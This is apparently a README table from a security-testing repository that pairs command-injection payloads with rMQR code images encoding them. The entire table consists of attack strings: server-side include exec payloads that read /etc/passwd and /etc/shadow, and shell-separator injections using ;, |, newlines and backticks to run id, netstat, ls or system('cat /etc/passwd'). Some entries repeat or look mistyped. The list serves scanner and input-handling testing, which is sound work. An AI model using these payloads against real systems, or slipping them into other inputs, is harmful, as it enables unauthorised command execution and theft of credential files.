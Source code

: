 ## command-injection

| Payload | rMQR |
| ----- | ----- |
| `&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/1.png) |
| `&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/2.png) |
| `&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/3.png) |
| `&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/4.png) |
| `/index.html\|id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/5.png) |
| `;id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/6.png) |
| `;id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/7.png) |
| `;netstat -a;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/8.png) |
| `;system('cat%20/etc/passwd')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/9.png) |
| `;id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/10.png) |
| `\|id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/11.png) |
| `\|/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/12.png) |
| `\|id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/13.png) |
| `\|/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/14.png) |
| `\|\|/usr/bin/id\\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/15.png) |
| `\|id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/16.png) |
| `\|\|/usr/bin/id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/17.png) |
| `;id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/18.png) |
| `;\|/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/19.png) |
| `\n/bin/ls -al\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/20.png) |
| `\n/usr/bin/id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/21.png) |
| `\nid\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/22.png) |
| `\n/usr/bin/id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/23.png) |
| `\nid;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/24.png) |
| `\n/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/25.png) |
| `\nid\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/26.png) |
| `;/usr/bin/id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/27.png) |
| `;id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/28.png) |
| `\|usr/bin/id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/29.png) |
| `\|nid\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/30.png) |
| ``id`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/31.png) |
| ``/usr/bin/id`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/32.png) |
| `a);id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/33.png) |
| `a;id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/34.png) |